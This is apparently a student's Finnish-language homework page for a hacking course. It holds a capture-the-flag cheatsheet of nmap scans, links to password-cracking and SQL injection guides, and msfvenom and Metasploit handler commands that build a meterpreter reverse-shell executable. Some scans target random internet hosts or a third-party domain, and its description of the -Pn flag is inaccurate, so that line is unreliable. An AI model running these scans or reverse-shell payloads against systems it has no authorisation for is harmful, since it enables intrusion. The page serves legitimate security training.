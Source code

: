 # h6 Lähtölaskenta

Lipunryöstö lähestyy, ja samalla kurssin päätös. Nyt valmistaudutaan lipunryöstöön, ja kurssin jälkeiseen elämään. Tieteellisten artikkeleiden silmäily auttaa oppariaiheen valinnassa. Harjoitusmaalit opettavat käytännön hakkerointia.

## a) Cheatsheet. Kerää parhaat komennot lipunryöstöä varten.

# nmap : https://www.stationx.net/nmap-cheat-sheet/

    Yksinkertainen skannaus yhdelle IP-osoitteelle:
    nmap <IP-osoite>

    Skannaus useille IP-osoitteille:
    nmap <IP-osoite1> <IP-osoite2> <IP-osoite3> ...
    
    Skannaus IP-osoitealueelle:
    nmap <alkuosoite>-<loppuosoite>
    Esim: nmap 192.168.1.1-254

    Skannaus käyttäen CIDR-notaatiota:
    nmap <verkkopolkun-IP>/<maski-bittien-määrä>
    Esim: nmap 192.168.1.0/24

    Skannaus yhdestä tai useammasta IP-osoitteesta, jotka on lueteltu tiedostossa:
    nmap -iL <tiedoston-nimi>

    Skannaus yhdestä tai useammasta satunnaisesti valitusta IP-osoitteesta:
    nmap -iR <lukumäärä>
    Esimerkiksi: nmap -iR 100

    Skannaus tietyn palvelimen kaikkia IP-osoitteita:
    nmap <verkkotunnus>
    Esim: nmap google.fi

    Skannauksen tekeminen, joka ohittaa käyttöoikeuden tarkistukset ja on nopeampi:
    nmap -Pn <IP-osoite>


# sql injektio: https://portswigger.net/web-security/sql-injection/cheat-sheet

# fuff: https://cheatsheet.haax.fr/web-pentest/tools/ffuf/

# Jhon the ripper: https://www.stationx.net/how-to-use-john-the-ripper/ , https://terokarvinen.com/2023/crack-file-password-with-john/

# hashcat: https://denizhalil.com/2023/11/01/hashcat-password-cracking/ , https://terokarvinen.com/2022/cracking-passwords-with-hashcat/

# kerberos: https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a


# msfvenom/metasploitable : https://www.comparitech.com/net-admin/metasploit-cheat-sheet/

    msfconsole
    use multi/handler/payload
    SET payload 
    SET LHOST 
    SET LPORT 
    run -j

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.x LPORT=80 -f exe > payload.exe

    sessions -i 1


# zap




# b) Review. Etsi ja tiivistä vertaisarviotu katsausartikkeli valitsemaltasi kyberturvallisuuden tai hakkeroinnin alalta.
"review" - yleensä katsausartikkeli nimessä on sana "review". Se pyrkii antamaan käsityksen alan tutkimuksesta juuri tällä hetkellä. Scholarlissa on myös nappi, jolla se yrittää näyttää vain review-artikkelit.
Tuoretta, jos ei löydy alle 2v, niin edes alle 5v.
1 <= jufo. Julkaistu arvostetussa vertaisarvioidussa lehdessä. Eli lehti löytyy Jufosta eli Julkaisufoorumin portaalista https://jfp.csc.fi/, ja sen taso on vähintään yksi.
Myös muualta kuin lehden kotisivulta ladattu kappale julkaistua artikkelia kelpaa, esim "final draft" sopii.
Ei yleistajuisia kirjoja tai lehtiartikkeleita: ei Mikrobitti, ei Tietotekiikan perusteet osa I, ei "Tiede 2000" -aikakauslehti
Älä maksa artikkeleista. Yleensä ilmainen latauslinkki löytyy Google Scholarlista oikealta. Haaga-Helian maksamat saa näkyviin Settings: Library Links: Haaga-Helia.
Englanninkielinen käyttöliittymä toimii paremmin https://scholar.google.com/ncr
Olennaisin sisältö tiivistelmään. Ei pelkkää metatekstiä tai artikkelin kuvailua:
Väärin: "Artikkeli kertoo uusista tuulista tietotekniikan parissa. Mukana on yllättävä havainto kiristyshaitakkeista"
Oikein: "Kiristyshaitakkeiden määrä kasvoi 30% vuoden 2023 aikana Foobarstanissa"
Suppeahko tiivistelmä ranskalaisilla viivoilla riittää
Kannattaa lisätä omat huomiot tai kysymykset mukaan. Merkitse selkeästi, mitkä ovat omaa pohdintaa.
Jos artikkeli on pitkä (yli 4 sivua), voit silmäillä sen lukemisen sijasta.

# c) Valmiina lipunryöstöön. Asenna läppärillesi tarvittavat työkalut lipunryöstöön. Hyökkäyskone voi olla virtuaalikone.
Se ei saa sisältää luottamuksellisia tietoja, koska sitä voi olla tarpeen tarkistaa ja tutkia harjoituksen yhteydessä.
Koneella saatetaan ajaa testibinäärejä ja kontteja; sekä tarkastamiseen liittyviä ohjelmia. Harjoituksessa saattaa olla Docker-kontteja, kokeile, että Docker toimii (Muistaakseni 'sudo apt-get -y install docker.io').
